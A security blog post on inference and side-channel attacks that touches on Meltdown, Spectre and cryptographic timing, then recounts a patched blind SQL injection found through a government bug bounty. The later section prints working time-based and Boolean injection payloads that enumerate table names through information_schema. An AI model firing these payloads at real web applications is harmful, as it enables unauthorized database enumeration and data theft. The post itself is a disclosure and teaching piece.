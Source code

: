 ```yaml
---
title: "Inference: Side-Channel Attacks"
excerpt: Inference, that is, induction and deduction, are perhaps my personal favorite classes of problem-solving methods.
date: 2021-09-17
ShowToc: true
categories: [appsec]
tags: [appsec]
---
```


## A Brief History

Inference, that is, induction and deduction, are perhaps my personal favorite classes of problem-solving methods. Given very little initial information, depending on our model and situation, we can utilize just a few points to infer other information which was never directly presented to us. From Pythagoras, to Euclid, and Spinoza—to the use of modern inductive algorithms like those being developed at MIRI—inference is a powerful primitive, and somewhat of a universal open secret, playing a role almost everywhere we look—from philosophy, to economics, game theory, aerospace, medicine, computer science, and any scenario in which probability is of importance. In the spirit of Lewis Carrol:

>[When a person says a thing, they often express another thing they don't mean to reveal.](https://twitter.com/hexagr/status/1014339388380237825)

## In Microprocessors

You may have heard of attacks like Meltdown and Specter, variants of side-channel attacks which broke 
the compartmentalization that was previously assumed in microprocessors. These vulnerabilities 
affected microprocessors that performed an operation known as branch prediction. To put it simply, 
attackers could use JavaScript and HTML5 to exploit a low level design flaw in the microprocessor architecture itself to bypass sandbox mechanisms, leak memory, and predict the instruction flow. Meltdown exploited a race condition and timing attack. Specter exploited time-based errors to infer memory artifacts. In short, simply visiting a webpage was enough to leak private memory and execute code. The papers on [meltdownattack.com](https://meltdownattack.com/), authored by researchers abroad, offer full technical overviews of both attacks. Prior knowledge of how computers work across all the abstraction layers—including architecture design, the features assembly language give us, what C and C++ give us, to kernels and drivers, and how desktop applications operate on top of these layers—are helpful to know if you're curious about the deeper details.

## In Cryptography

Like the above premise, inferential attacks often occur when a cryptosystem can be timed, thus we can glean information about algorithms and key material. In general, cryptographic systems should utilize constant-time algorithms. But this isn't always straightforward. Memory accesses, mathematical operations, and CPU hardware can present technical hurdles. We'll cover cryptography engineering in future posts.

## In Web Applications

Likewise, we find a very similar class of vulnerabilities in web applications. This is usually the result of unsanitized inputs (unparameterized queries) involving databases like MySQL and PostgreSQL, and can lead to various flavors of SQL injection.

## Inferential Injection

While fuzzing the Department Of Defense's Bug Bounty Program for security vulnerabilities, I actually discovered one such web application issue. While doing reconnaissance, glancing over HTTP requests, I found an endpoint making a suspicious call. A server was posting a request like:

```plaintext
POST https://example.deptofdefense.xyz/server/api/this.php HTTP/1.1
Host: example.deptofdefense.xyz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0)
Content-Length: 404
Origin: https://example.deptofdefense.xyz
Connection: close
Cookie: example=404; PHPSESSID=987654321

// Variables and queries redacted for privacy and brevity
busy=0&phone=1
...
```


There were many variables in this request, but a few of them weren't correctly parameterized. Appending a backtick would throw an error:

```plaintext
https://research.deptofdefense.xyz/server/api/this.php?phone=1' 
```


Performing a time-based payload test by injecting `WAIT FOR DELAY '0:0:10'';` into the vulnerable parameter successfully caused the server's response to be delayed by 10 seconds. It was also possible to perform Boolean tests.

```plaintext
https://research.deptofdefense.xyz/server/api/this.php?phone=1' AND 6=6--
```

Furthermore, we could use Boolean statements to test if very particular conditions returned True or False. For example, if we wanted to see if the string length of the first table in information_schema.tables was five characters, e.g. potentially "`users`":

```plaintext
https://research.deptofdefense.xyz/server/api/this.php?phone=1' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+
```


It follows that we can iteratively do this, testing each character of the potential table name's ASCII values. It's slow. But this can allow us to enumerate the database. If the request loads successfully, it returned True. Here we test for the ASCII value `117`, or the letter `u`.

```plaintext
https://research.deptofdefense.xyz/server/api/this.php?phone=1' AND (ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 1, 1)) = 117)
```


Iterating with this process, it was possible to enumerate and verify various table names in a database as a proof of concept for Boolean/time-based injection. The Department of Defense have since [patched](https://hackerone.com/reports/954667) this vulnerability. When using SQL, always remember to correctly [parameterize your queries](https://blog.codinghorror.com/give-me-parameterized-sql-or-give-me-death/).
